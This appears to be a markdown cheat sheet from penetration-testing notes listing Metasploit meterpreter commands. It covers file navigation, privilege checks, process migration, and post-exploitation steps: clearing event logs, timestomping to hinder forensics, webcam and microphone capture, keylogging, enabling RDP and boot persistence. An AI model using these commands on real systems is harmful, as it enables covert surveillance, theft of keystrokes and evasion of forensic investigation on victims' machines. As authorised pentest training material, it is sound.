 # Common meterpreter commands - msfconsole

[Go back](../metasploit.md)

<div class="row row-cols-md-2"><div>

#### Linux-like commands

You can use many Linux-like commands such as:

```ps
meterpreter> ls # list files
meterpreter> cd # move
meterpreter> pwd # path to current folder
meterpreter> cat file # print file
meterpreter> edit file # open file in vim
meterpreter> ps # see running processes
meterpreter> exit
```

#### Local commands

You can run commands on your machine in the meterpreter:

```ps
meterpreter> lpwd # or getlwd, local path
meterpreter> lcd path # move to local path
meterpreter> lls path # list local files
meterpreter> lcat file # print local file
```
</div><div>

#### Common utilities

These are new convenient functions that were added:

```ps
meterpreter> search -f pattern # search file by pattern
meterpreter> search -f pattern / # search inside /
meterpreter> download remote_path local_path # download
meterpreter> upload local_path remote_path # upload
```
</div></div>

<hr class="sep-both">

## Common commands for exploitation 💥

<div class="row row-cols-md-2"><div>

* ➡️ See if you are root and your privileges

```ps
meterpreter> getuid
# Windows: NT AUTHORITY\SYSTEM = admin 😎
```

* ➡️ Learn more about the system. Here with Windows, you could look for CVEs given the build version. The architecture can help too, as some scripts are less useful on some architectures.

```ps
meterpreter> sysinfo
# Computer        : XXX-PC
# OS              : Windows X (... Build xxx...).
# Architecture    : x64
```

* ➡️ Start a shell: `sh/bash` on Linux, `cmd` on Windows

```ps
meterpreter > shell # start a shell
C:\WINDOWS\system32> # Windows cmd
```
</div><div>

* ➡️ Ask for suggested exploits

```ps
meterpreter > run post/multi/recon/local_exploit_suggester
```

* ➡️ Load a local file `commands.txt` with meterpreter commands

```ps
meterpreter > resource commands.txt
```

* ➡️ 📝 Migrate to another process 📝. This is something as some services/stuff need us to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM"/root should be okay, although you may have to try a few times.

```ps
meterpreter > ps # list process
meterpreter > migrate process_pid # move to another process
meterpreter > migrate -N process_name # same
# most used ones
meterpreter > migrate -N spoolsv.exe # can restart so good
meterpreter > migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Common commands for post-exploitation ✈️

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ | `root`. Clear logs

```ps
meterpreter> clearev
```

* ➡️  | `root`. Mess with timestamp to complicate forensics

```ps
meterpreter> timestomp
```

* ➡️ Random commands

```ps
meterpreter> idletime # time the host was idle
meterpreter> ipconfig # network information
meterpreter> localtime # time and date
# others
meterpreter> getenv
meterpreter> checksum
```
</div><div>

All the commands below require administrative/root privileges.

<details class="details-e">
<summary>Take control of the webcam</summary>

```ps
meterpreter> webcam_list
meterpreter> webcam_snap
```
</details>

<details class="details-e">
<summary>Take a screenshot</summary>

```ps
meterpreter> migrate -N explorer.exe
meterpreter> use espia
meterpreter> screengrab
```

You may also use `screenshot` 📌.
</details>

<details class="details-e">
<summary>Install a keylogger</summary>

```ps
meterpreter > migrate -N explorer.exe
meterpreter > keyscan_start # start
meterpreter > keyscan_dump # dump keys
```
</details>

<details class="details-e">
<summary>Watch the screen in real time</summary>

Watch the remote user desktop in real time

```ps
meterpreter > screenshare
meterpreter > record_mic # Record audio from the default microphone for X seconds
```
</details>

<details class="details-e">
<summary>Record microphone</summary>

Record audio from the default microphone for X seconds

```ps
meterpreter > record_mic
```
</details>

<details class="details-e">
<summary>Enable Remote Desktop Protocol</summary>

```ps
meterpreter > run post/windows/manage/enable_rdp
```
</details>

<details class="details-e">
<summary>Persistence</summary>

See [METERPRETER SERVICE](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/).

```ps
# Automatically start the agent when the system boots
meterpreter > run persistence -X
```
</details>
</div></div>